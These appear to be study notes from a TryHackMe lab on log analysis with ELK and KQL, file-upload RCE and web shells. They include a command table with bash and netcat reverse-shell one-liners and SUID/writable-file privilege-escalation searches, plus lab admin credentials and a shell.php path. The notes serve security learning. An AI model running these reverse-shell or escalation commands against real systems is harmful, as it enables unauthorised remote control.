 ******************************************************************************************************************************
                    Day 3 - Even if I wanted to go, their vulnerabilities wouldn't allow it
******************************************************************************************************************************

- Learn about Log analysis and tools like ELK.
- Learn about KQL and how it can be used to investigate logs using ELK.
- Learn about RCE (Remote Code Execution), and how this can be done via insecure file upload.

- How to use ELK to analyse the logs of a demonstration web app
- Review Apache2 logs

KQL, or Kibana Query Language, is an easy-to-use language that can be used to search documents for values.
Kibana also allows using Lucene query, an advanced language that supports features such as fuzzy terms (searches for terms that are similar to the one provided)

| Query/Syntax | Description                                                                                     | Example                                   |
|--------------|-------------------------------------------------------------------------------------------------|-------------------------------------------|
| " "          | The two quotation marks are used to search for specific values within the documents. Values in quotation marks are used for exact searches. | "TryHackMe"                               |
| *            | The asterisk denotes a wildcard, which searches documents for similar matches to the value provided. | United* (would return United Kingdom and United States) |
| OR           | This logical operator is used to show documents that contain either of the values provided.    | "United Kingdom" OR "England"            |
| AND          | This logical operator is used to show documents that contain both values.                      | "Ben" AND "25"                           |
| :            | This is used to search the (specified) field of a document for a value, such as an IP address. Note that the field you provide here will depend on the fields available in the index pattern. | ip.address: 10.10.10.10                  |

"" = Exact
* = Wildcard
OR = Either
AND = Both
: = Search the field

File Upload Vulnerabilities

RCE: Uploading a script that the server runs gives the attacker control over it.
XSS: Uploading an HTML file that contains an XSS code which will steal a cookie and send it back to the attacker's server.

Examples of abuse through unrestricted file uploads include:

Uploading a script that the server executes, leading to RCE.
Uploading a crafted image file that triggers a vulnerability when processed by the server.
Uploading a web shell and browsing to it directly using a browser.

Remote code execution (RCE) happens when an attacker finds a way to run their own code on a system.

A web shell is a script that attackers upload to a vulnerable server, giving them remote control over it.

For example, attackers could use a web shell to:

Execute commands on the server
Move laterally within the network
Download sensitive data or pivot to other services

a) what your goal is
b) what misconfigurations are present on the system

| Command                                      | Use                                                                                                                                                   |
|----------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------|
| `ls`                                         | Will give you an idea of what files/directories surround you                                                                                         |
| `cat`                                        | A command used to output the contents of documents such as text files                                                                                |
| `pwd`                                        | Will give you an idea of where in the system you are                                                                                                 |
| `whoami`                                     | Will let you know who you are in the system                                                                                                          |
| `hostname`                                   | The system name and potentially its role in the network                                                                                              |
| `uname -a`                                   | Will give you some system information like the OS, kernel version, and more                                                                          |
| `id`                                         | If the current user is assigned to any groups                                                                                                        |
| `ifconfig`                                   | Allows you to understand the system's network setup                                                                                                  |
| `bash -i >& /dev/tcp/<your-ip>/<port> 0>&1`  | A command used to begin a reverse shell via bash                                                                                                     |
| `nc -e /bin/sh <your-ip> <port>`             | A command used to begin a reverse shell via Netcat                                                                                                   |
| `find / -perm -4000 -type f 2>/dev/null`     | Finds SUID (Set User ID) files, useful in privilege escalation attempts as it can sometimes be leveraged to execute binary with privileges of its owner (often root) |
| `find / -writable -type f 2>/dev/null | grep -v "/proc/"` | Also helpful in privilege escalation attempts used to find files with writable permissions                                                             |



******************************************
                Investigation
******************************************        

frostypines-resorts <<< The focus
wareville-rails

Oct 3rd 11:30 to Oct 3rd 12:00

483 Hits

2 IPs
    10.9.254.186
    10.11.83.34 <<< The focus 

admin@frostpines.thm | admin

http://frostypines.thm/admin/rooms.php
http://frostypines.thm/media/images/rooms/shell.php

http://frostypines.thm

*****************************************************
                Commandline Arguments
*****************************************************

